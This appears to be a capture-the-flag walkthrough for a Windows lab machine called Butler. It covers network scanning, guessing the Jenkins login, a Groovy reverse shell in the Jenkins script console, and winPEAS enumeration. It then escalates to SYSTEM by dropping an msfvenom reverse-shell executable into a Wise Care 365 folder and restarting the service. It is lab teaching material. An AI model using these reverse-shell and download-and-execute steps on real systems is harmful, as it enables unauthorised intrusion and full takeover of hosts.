

## Ennumeration <a href="#ennumeration" id="ennumeration"></a>

```
sudo netdiscover -r 10.0.2.0/24

 10.0.2.80       08:00:27:59:23:51      1      60  PCS Systemtechnik GmbH                                                                                  
```

* nmap

```
nmap -T4 -p- -A 10.0.2.80      

Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-16 14:14 EST
Nmap scan report for 10.0.2.80
Host is up (0.00025s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:59:23:51 (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2022-02-17T03:18:23
|_  start_date: N/A
|_clock-skew: 7h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 267.15 seconds
```

## Jenkins <a href="#jenkins" id="jenkins"></a>

[http://10.0.2.80:8080/](http://10.0.2.80:8080/)

* Password spraying with Cluster bomb inside Burp Suite

Found

user: Jenkins pass: Jenkins

Manage Jenkins -> Scrip console

```
http://10.0.2.80:8080/script
```

Search on google for groovy remote shell

* Attacker machine

```
nc -nvlp 8044
```

* Jenkins Console

```
String host="10.0.2.10";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* Result

```
nc -nvlp 8044                                                                                                                                     127 ⨯
listening on [any] 8044 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 50814
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Jenkins>whoami
whoami
butler\butler

C:\Program Files\Jenkins>
```

### Privilege escalation <a href="#privilege-scalation" id="privilege-scalation"></a>

[PEASS-ng](https://github.com/carlospolop/PEASS-ng)

Download the X64 version for windows

Can use the `python3 -m http.server 80` to create a socket and connection or download directly inside the machine

```
curl http://10.0.2.10/winPEASx64.exe --output winpeas.exe

winpeas.exe
```

* The juicy part of the output

```
����������͹ Scheduled Applications --Non Microsoft--
� Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                              
    (Lespeed Ltd.) Wise Care 365.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTray.exe -StartTray
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At log on of any user
   =================================================================================================

    (Lespeed Ltd.) Wise Turbo Checker.job: C:\Program Files (x86)\Wise\Wise Care 365\WiseTurbo.exe 
    Permissions file: Administrators [AllAccess]
    Permissions folder(DLL Hijacking): Administrators [AllAccess]
    Trigger: At 5:35 AM every day
   =================================================================================================
```



With that, we can put an executable in this path, and it will treat as part of the service

* Generate reverse shell with msfvenom

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.10 LPORT=7777 -f exe > Wise.exe
```

* Download and execute malware

On attacker machine, open another shell

```
nc -nvlp 7777
```

On vulnerable machine

```
cd "C:\Program Files (x86)\Wise"
curl http://10.0.2.10/Wise.exe -o Wise.exe

sc stop WiseBootAssistant
sc start WiseBootAssistant
```

```
nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.10] from (UNKNOWN) [10.0.2.80] 49695
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

\
